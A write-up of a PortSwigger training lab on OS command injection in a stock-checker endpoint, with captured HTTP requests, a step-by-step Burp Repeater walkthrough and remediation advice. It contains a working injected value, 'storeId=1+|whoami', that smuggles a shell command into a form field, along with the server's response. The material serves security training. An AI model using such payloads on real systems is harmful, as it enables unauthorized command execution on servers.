




# Lab: OS command injection, simple case
**Topic:** OS Command Injection  
**Difficulty:** Apprentice  
**Link:** [https://portswigger.net](https://portswigger.net)

##  Objective
Exploit an OS command injection vulnerability in the product stock checker function to execute the system `whoami` command and exfiltrate the name of the current user running the web service application.

##  Enumeration & Analysis
* **Vulnerable Input Vector:** The product details view provides a "Check stock" feature that transfers parameters via a `POST` request to the `/product/stock` endpoint.
* **Unsafe Execution Path:** The backend implementation handles this request by executing a shell command on the host operating system, combining user-controlled variables (`productId` and `storeId`) straight into command arguments without validation filters:
  ```bash
  stockreport.pl <productID> <storeID>
  ```
* **Vulnerability Flaw:** Because the web application strips no shell metacharacters before executing the request on the command line, an attacker can supply shell separators (like `&`, `|`, or `;`) to step out of the intended argument context and execute arbitrary code.

---

##  Traffic Capture Logs

###  Baseline Intercepted Stock Check Request
This log displays the original, unmodified state captured in your Proxy history when checking a product’s standard stock units inventory:
```http
POST /product/stock HTTP/2
Host: 0a2b0064036f26a880c7710a00f90011.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

productId=1&storeId=1
```

###  Weaponized Payload Injection Request
By adding a command delimiter (`|`) followed by our target shell payload command directly inside the raw parameter layout inside **Burp Repeater**, the server executes our command sequentially:
```http
POST /product/stock HTTP/2
Host: 0a2b0064036f26a880c7710a00f90011.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

productId=1&storeId=1+|whoami
```

###  Successful Command Output Response
The backend web server processes the injected loop string and directly echoes the plain text result of our shell command inside the HTTP response payload stream:
```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 13

peter-oFbuPK
```

---

##  Exploitation Step-by-Step
1. Browse to any target item store view page, scroll down to the inventory tools box, and hit **Check stock**.
2. Open your **Burp Proxy HTTP history** ledger, spot the newly generated `POST /product/stock` entry line, right-click it, and select **Send to Repeater**.
3. In the left editor request pane of the **Repeater** workspace tab view, click into the body arguments parameters line string: `productId=1&storeId=1`.
4. Inject a shell separator piping string symbol and your target system instruction right at the tail end of the data arguments string array: `&storeId=1+|whoami`
5. Click **Send** to deliver the weaponized string to the server backend interpreter engine.
6. Analyze the right-hand **Response** text viewer block. The application runs the pipeline sequence seamlessly and reflects back the active system account flag profile name string value: `peter-oFbuPK`.
7. Once the output confirms remote execution capability, look back at your primary web interface browser window to verify the system registers the lab environment as completed.

---

##  Proof of Concept (PoC)

### 1. Initial Lab Access & Target Description Context


### 2. Capture and Inspection of Unmodified API Parameters


### 3. Setting Up the Target Request for Parameter Modification


### 4. Executing Injected Shell Delimiter Payloads


### 5. Exfiltrated Username Token From System Response


---

##  Remediation
* **Avoid Shell Execution Hooks Completely:** Never rely on system shell wrapper utilities or execution hooks (like Python `os.system`, PHP `exec`, or Perl system loops) to query file assets or background software processes.
* **Implement Strict Data-Type Typing:** Enforce strict type validation schemes checking parameters at the entry controller boundary layer, certifying values match expected integers only.
* **Deploy Secure Native Application APIs:** Rewrite logic blocks to query underlying server assets utilizing safe, programmatic application programming interfaces that pass inputs purely as static data parameters rather than compilable code commands.
